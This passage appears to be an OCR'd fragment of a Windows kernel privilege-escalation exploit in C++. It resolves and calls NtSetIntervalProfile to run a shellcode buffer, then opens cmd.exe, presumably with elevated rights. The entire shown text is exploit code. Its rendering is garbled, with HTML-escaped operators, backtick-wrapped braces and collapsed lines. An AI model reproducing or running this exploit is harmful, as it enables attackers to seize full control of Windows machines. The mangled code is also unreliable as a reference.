 ```
   PNtSetIntervalProfile NtSetIntervalProfile = (PNtSetIntervalProfile)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtSetIntervalProfile");    if (!NtSetIntervalProfile) `{`        cout &lt;&lt; "[!] Failed to Get the Address of NtSetIntervalProfile." &lt;&lt; endl;        cout &lt;&lt; "[!] Last error " &lt;&lt; GetLastError() &lt;&lt; endl;        exit(1);    `}`    NtSetIntervalProfile((ULONG*)SC, ProfileTotalIssues);    PROCESS_INFORMATION ProcessInformation;    ZeroMemory(&amp;ProcessInformation, sizeof(ProcessInformation));    STARTUPINFOA StartupInfo;    ZeroMemory(&amp;StartupInfo, sizeof(StartupInfo));    CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, 0, CREATE_NEW_CONSOLE, NULL, NULL, &amp;StartupInfo, &amp;ProcessInformation);    VirtualFree(SC, 0, MEM_RELEASE);`}`

```

```
```